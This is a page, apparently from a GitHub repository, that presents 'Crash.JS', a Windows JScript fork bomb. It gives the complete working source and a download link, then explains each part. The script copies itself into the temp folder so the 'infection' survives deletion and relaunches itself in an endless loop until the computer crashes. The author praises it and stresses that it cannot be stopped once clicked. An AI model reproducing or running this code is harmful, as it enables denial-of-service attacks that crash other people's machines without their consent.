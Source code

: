 MiniML 1.0
//Copyright Emilien Breton


Preface
-------

[Crash.JS] is a [JScript] file that {crashes:: https://en.wikipedia.org/wiki/Crash_(computing)} any PC in a matter of seconds. It renders the target computer slow, then unresponsive, and continues until it simply crashes. The way it works is very simple: it runs copies of itself in a loop as quick as it can, which means that processes are started {exponentially:: https://www.dictionary.com/browse/exponentially} more quickly every second. No PC can handle that much stress, and so after a small amount of time, it just gives up. If you would like to download it for yourself, just {click here:: ./Crash.js}!


How it works
------------

# code
Here is the whole code ran by the program:
	[[
	var fso = new ActiveXObject('Scripting.FileSystemObject');
	var wsh = new ActiveXObject('WScript.Shell');
	&nbsp;
	if(WScript.Arguments.length == 0){
	  fso.CopyFile(WScript.ScriptFullName, fso.GetSpecialFolder(2) + '\\\');
	  wsh.Run(fso.GetSpecialFolder(2) + '\\\' + WScript.ScriptName + ' 1');
	}else while(true) wsh.Run(WScript.ScriptFullName + ' 1');
	]]
It is divided into 3 major parts. The first one is the following:
	[[
	var fso = new ActiveXObject('Scripting.FileSystemObject');
	var wsh = new ActiveXObject('WScript.Shell');
	]]
All this does is it initializes two variables ([fso] and [wsh]) for later use, so it is not that important. After that, the second part of the program gets run. Here it is:
	[[
	if(WScript.Arguments.length == 0){
	  fso.CopyFile(WScript.ScriptFullName, fso.GetSpecialFolder(2) + '\\\');
	  wsh.Run(fso.GetSpecialFolder(2) + '\\\' + WScript.ScriptName + ' 1');
	}
	]]
The job of this part is to make a copy of the program in a {temporary directory:: https://en.wikipedia.org/wiki/Temporary_folder}, so that if the original gets deleted, the infection continues. It has a very important statement in it: [if(WScript.Arguments.length == 0)]. This statement makes sure that the program was run by the user, so it only makes a copy of itself when you run it for the first time. Then, once a copy has been made, the third part of the program executes. It consists of the following:
	[[
	else while(true) wsh.Run(WScript.ScriptFullName + ' 1');
	]]
The key of this part is the [while(true)] section: it is used to execute the next statement in an infinite loop... and it turns out that the next statement runs the program again, but in a separate process. This is the part that actually crashes the computer, because the more {instances:: https://en.wikipedia.org/wiki/Instance_(computer_science)} of this program are running, the more {instances:: https://en.wikipedia.org/wiki/Instance_(computer_science)} will be created!


Final Words
-----------

In my opinion, this is an very simple, but extremely effective little piece of software. However, some people may argue:
	""Sure, but very powerful computers will take hours to even start to slow down!""
And this is a fair point, except it's not. Powerful computers usually take even less time to come to a {halt:: https://en.wikipedia.org/wiki/Crash_(computing)} for the simple reason that they can execute the program's code way faster, which also {crashes:: https://en.wikipedia.org/wiki/Crash_(computing)} the computer quicker. This program is awesome because there is no way to stop it: once someone clicks on it, it's already too late!
